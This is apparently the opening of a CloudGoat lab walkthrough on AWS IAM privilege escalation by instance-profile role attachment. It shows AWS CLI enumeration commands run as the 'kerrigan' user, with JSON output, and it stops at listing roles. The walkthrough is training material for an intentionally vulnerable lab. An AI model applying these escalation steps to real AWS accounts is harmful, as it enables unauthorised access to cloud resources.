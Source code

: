 ```yaml
---
title:  "CloudGoat: IAM Privilege Escalation by Attachment"
date:   2024-03-25
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-25
---
```


In this scenaio, they provide us the kerrigan user who can list role, add and remove instance profile role. We will use these permissions to do privilege escalation.

### List instance profiles
```shell
aws --profile kerrigan iam list-instance-profiles
```

Result:
```json
{
    "InstanceProfiles": [
        {
            "InstanceProfileName": "cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###",
            "Arn": "arn:aws:iam::###:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###",
            "Roles": [
                {

                    "RoleName": "cg-ec2-meek-role-iam_privesc_by_attachment_###",
                    "Arn": "arn:aws:iam::###:role/cg-ec2-meek-role-iam_privesc_by_attachment_###",
                    "AssumeRolePolicyDocument": {
                        "Version": "2012-10-17",
                        "Statement": [
                            {
                                "Effect": "Allow",
                                "Principal": {
                                    "Service": "ec2.amazonaws.com"
                                },
                                "Action": "sts:AssumeRole"
                            }
                        ]
                    }
                }
            ]
        }
    ]
}
```

We got an instance profile `cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###` with a role `cg-ec2-meek-role-iam_privesc_by_attachment_###` that allow to be assumed by ec2 instances.

### List all roles
```shell
aws --profile kerrigan iam list-roles
```
